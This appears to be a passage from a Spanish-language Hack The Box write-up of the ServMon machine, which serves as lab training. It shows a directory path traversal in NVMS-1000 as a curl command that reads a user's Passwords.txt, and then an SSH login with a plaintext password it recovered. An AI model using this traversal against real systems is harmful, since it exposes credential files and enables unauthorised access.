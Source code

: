 Podemos inspeccionar, probar credenciales por default en los input, inyectar sentencias SQL, pero no encontramos nada. Vemos algo llamado `NVMS-1000`, busquemos que es y si podemos encontrar algún exploit.

> **NVMS-1000** según la busqueda, es un software para el control y gestión de camaras.

![nvmsPOCtxt](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/nvmsPOCtxt.png)

Encontramos un `.txt`, relacionando un **Directory Path Traversal**, lo que nos permite ver archivos del sistema en el que está corriendo la página, que normalmente no deberíamos ver.

...

## Explotación {#explotacion}

Podemos relacionar lo encontrado anteriormente con FTP, ya que sabiendo que **Windows** tiene normalmente en su raíz una carpeta llamada `c:\Users` y tenemos 2 usuarios, pero realmente uno es el que nos interesa, `Nathan` y que tiene en su escritorio el archivo `Password.txt`, entonces realizando la consulta quedaría así.

Usaré cURL: 

```bash
$curl --path-as-is -v http://10.10.10.184/../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt
```

| Parámetro      | Descripción   |
| ---------------|:------------- |
| -path-as-is    | Toma la petición con los "/..", sin esto hace el request a http://10.10.10.184/Users/Nathan/Desktop/Passwords.txt y pues este path no funciona |
| -v             | Para ver que está pasando por detrás del request |

![passwordsCurl](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/passwordsCurl.png)

Perfecto, tenemos credenciales, veamos si alguna es de algún usuario.

```bash
$ssh nadine@10.10.10.184

password: L1k3B1gBut7s@W0rk
```

![sshNadine](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/sshNadine.png)

Listos, tenemos la flag del usuario. Veamos los últimos 18 caracteres.

![last18charsUsr](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/last18charsUsr.png)

...

## Escalada de privilegios {#escalada-de-privilegios}

Basándonos en el escaneo de puertos, recordamos que había un servicio llamado **NSClient++** corriendo sobre el puerto **8443**, ¿De qué trata y que podemos encontrar de él en Windows?
